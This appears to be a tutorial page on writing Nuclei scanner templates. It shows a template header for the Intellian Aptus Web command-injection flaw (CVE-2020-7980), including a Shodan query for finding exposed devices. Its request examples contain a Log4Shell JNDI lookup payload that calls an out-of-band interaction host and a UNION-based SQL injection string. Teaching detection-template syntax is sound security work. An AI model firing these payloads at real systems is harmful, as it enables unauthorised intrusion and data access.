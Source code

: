 ```
info:
  name: Satellian Intellian Aptus Web <= 1.24 RCE
  author: ritikchaddha
  severity: critical
  description: 'Intellian Aptus Web 1.24 allows remote attackers to execute arbitrary OS commands via the Q field within JSON data to the cgi-bin/libagent.cgi URI. NOTE: a valid sid cookie for a login to the intellian
    default account might be needed.'
  reference:
    - https://nvd.nist.gov/vuln/detail/CVE-2020-7980
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2020-7980
    cwe-id: CWE-78
  metadata:
    shodan-query: http.title:"Intellian Aptus Web"
  tags: satellian,rce,cve,cve2020,intellian,aptus
```
<a href="#menu"> Back to main menu </a>

<p id="request_block"> </p>

> ### 2. **Request block**
>> **a. Raw request**:
Multiple requests can be made from only one single template. Requests block specifies the start of the requests for the template.

```
requests:
```

#### **Method**
<h1 id="test"></h1>
Those request method can be GET, POST, PUT, DELETE,...

```
requests:
  - request: #Method is specific in front of each request
      - |
        GET /?x=${jndi:ldap://${hostName}.uri.{{interactsh-url}}/a} HTTP/1.1
        Host: {{Hostname}}
```

**Redirect**

---

This field decides whether current requests can be redirect or not. By default, redirects are not allowed(it brings false value). However, if user want to redirect, it can be turn on with **redirects: true**.

```
requests:
  - request:
      - |
        POST /admin/?n=language&c=language_general&a=doExportPack HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        appno= 1 union SELECT 98989*443131,1&editor=cn&site=web

    redirects: true
```

